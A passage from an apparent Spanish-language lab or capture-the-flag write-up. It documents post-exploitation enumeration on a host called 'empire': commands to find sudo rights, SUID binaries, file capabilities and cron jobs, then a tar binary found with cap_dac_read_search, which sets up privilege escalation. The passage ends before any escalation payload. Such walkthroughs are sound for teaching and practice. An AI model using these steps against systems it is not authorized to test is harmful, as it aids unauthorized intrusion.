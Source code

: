 ### 3.3 Enumeración Post-Explotación

#### Información del Sistema
```bash
# Información básica del sistema
whoami                    # cyber
id                       # uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
uname -a                 # Kernel y arquitectura
cat /etc/os-release      # Distribución
ps aux                   # Procesos en ejecución
ss -tulpn               # Servicios de red
```

#### Enumeración de Privilegios
```bash
# Sudo permissions
sudo -l

# SUID binaries
find / -perm -4000 -type f 2>/dev/null

# GUID binaries  
find / -perm -2000 -type f 2>/dev/null

# World-writable files
find / -perm -002 -type f 2>/dev/null

# Capabilities (CRÍTICO)
getcap -r / 2>/dev/null

# Cron jobs
crontab -l
cat /etc/crontab
ls -la /etc/cron*

# Environment variables
env
```

#### Resultado Crítico: Capabilities
```bash
cyber@empire:~$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
```

### 3.4 Escalada de Privilegios vía Capabilities

#### Análisis de la Vulnerabilidad
```bash
# Verificar el binario tar
ls -la /home/cyber/tar
file /home/cyber/tar
ldd /home/cyber/tar

# Confirmar capabilities
getcap /home/cyber/tar
# Output: /home/cyber/tar cap_dac_read_search=ep
```
